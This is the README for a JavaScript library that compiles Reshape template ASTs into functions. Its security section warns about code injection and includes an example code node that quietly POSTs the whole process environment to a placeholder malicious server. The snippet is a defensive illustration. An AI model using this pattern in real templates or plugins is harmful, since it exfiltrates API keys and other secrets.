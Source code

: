 # Reshape Code Generator

[![npm](https://img.shields.io/npm/v/reshape-code-gen.svg?style=flat-square)](https://npmjs.com/package/reshape-code-gen)
[![tests](https://img.shields.io/travis/reshape/code-gen.svg?style=flat-square)](https://travis-ci.org/reshape/code-gen?branch=master)
[![dependencies](https://img.shields.io/david/reshape/code-gen.svg?style=flat-square)](https://david-dm.org/reshape/code-gen)
[![coverage](https://img.shields.io/coveralls/reshape/code-gen.svg?style=flat-square)](https://coveralls.io/r/reshape/code-gen?branch=master)

Convert a Reshape AST into a Javascript function

> **Note:** This project is in early development, and versioning is a little different. [Read this](http://markup.im/#q4_cRZ1Q) for more details.

### Installation

`npm install reshape-code-gen -S`

> **Note:** This project is compatible with node v6+ only

### Usage

Usage is very straightforward. Just require the library and pass it a reshape AST, and it will return a function as a string. When you call the function, it will return the resulting html as a string.

```js
const generate = require('reshape-code-gen')

const tpl = generate([
  { type: 'string', content: 'hello ', line: 1, col: 1 },
  { type: 'code', value: 'planet', line: 1, col: 7 }
], {/* options */})

tpl({ planet: 'world' }) // 'hello world'
```

### Options

| Name | Description | Default |
| ---- | ----------- | ------- |
| **selfClosing** | style for handling self-closing tags. can be `slash` (`<br />`), `tag` (`<br></br>`), or `close` (`<br>`) | `close` |
| **runtimeName** | custom name for the runtime object | `__runtime` |
| **returnString** | gives back a string instead of a function | `false` |
| **scopedLocals** | use `locals.foo` instead of `foo` in code nodes. this will speed up compile time, but be less pretty | `false`

### Code Block Helpers

Within the `content` of a `code` node, there are two special helpers that can be used:

#### `__nodes`

A helper that can be used inside of a `code` node's content in order to inject an already-generated AST. For example:

```js
{
  type: 'code',
  content: 'foo === "bar" ? __nodes[0] : __nodes[1]',
  nodes: [
    { type: 'text', content: 'truth' },
    { type: 'text', content: 'lies' }
  ]
}
```

The `__nodes` helper is an array, and you can use the `nodes` property to hold on to values. Values can be a single node or a full tree, they will be evaluated, and the result will be substituted in where the `__nodes` marker is.

####  `__runtime`

This helper can be used to access any functions on the runtime object. It will work under the same name whether the user has changed the runtime name via the options or not. For example:

```js
{
  type: 'code',
  content: '__runtime.escape(foo)'
}
```

### Security

Please note that this library produces a function as its output that could be influenced by user input and will most likely run inside your application environment. While the default output is evaluated in a [sandbox](https://nodejs.org/api/vm.html), when the function is executed it will have full access to any part of your code's environment, as all functions do.

Chances are that any `code` nodes in your templates are your own code, probably for evaluating a local variable. However, if any type of outside user input is accepted and evaluated as a `code` node, or if a malicious plugin is being used, you have a serious security vulnerability on your hands. This is especially the case when using the `outputString` option and executing templates client-side. Keep in mind that it is also possible for plugins to contain malicious code, so be sure that you trust and have evaluated the source of any plugins you are using.

Here's an example of how a `code` node could be used to compromise your secure information:

```js
{
  type: 'code',
  content: `
    (function () {
      const http = require(\'http\')
      const req = http.request({
        hostname: 'http://malicious-server.com',
        method: 'POST',
        headers: { 'Content-Type': 'application/json' }
      })
      req.write(JSON.stringify(process.env))
      req.end()
      return foo
    })()
  `
}
```

In this example, the code node will return `foo` from your local variables as if all is well, but in the background will send the contents of your environment, which often includes private API keys and such, to a malicious server. This example would work in node, but it would also be simple to add a version that would work in the browser, or even both, with an environment check. And this is a very tame example as well, arbitrarily injected code could easily be used to get or delete your database's contents, make financial transactions, conduct actions as a logged-in user, etc.

While a situation like this is unlikely to happen, and all core plugins protect against it as much as possible, it is still something to keep in mind. _Especially_ if there is any user input inserted into your templates that could be potentially evaluated as code and not as a string.

### License & Contributing

- Details on the license [can be found here](LICENSE.md)
- Details on running tests and contributing [can be found here](contributing.md)
